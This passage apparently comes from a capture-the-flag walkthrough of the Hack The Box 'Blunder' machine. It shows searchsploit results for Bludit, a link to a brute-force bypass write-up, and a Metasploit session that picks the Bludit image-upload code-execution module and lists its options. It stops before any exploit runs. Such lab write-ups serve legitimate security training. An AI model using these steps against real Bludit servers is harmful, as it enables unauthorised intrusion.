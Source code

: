 ```bash
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                           | php/webapps/46060.txt
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Great! We found a couple vulnerabilities and from google: https://rastating.github.io/bludit-brute-force-mitigation-bypass/. It provides a python script that allows users to bypass the brute force protections on the login page. Lets see what version of bludit we're working with.
![Alt text](images/5.png)
Looking at the source code, we see that the server is running version 3.9.2. Lets check out the metasploit module.
```bash
kali@kali:~/hackthebox/Blunder$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf5 > use 0
msf5 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
```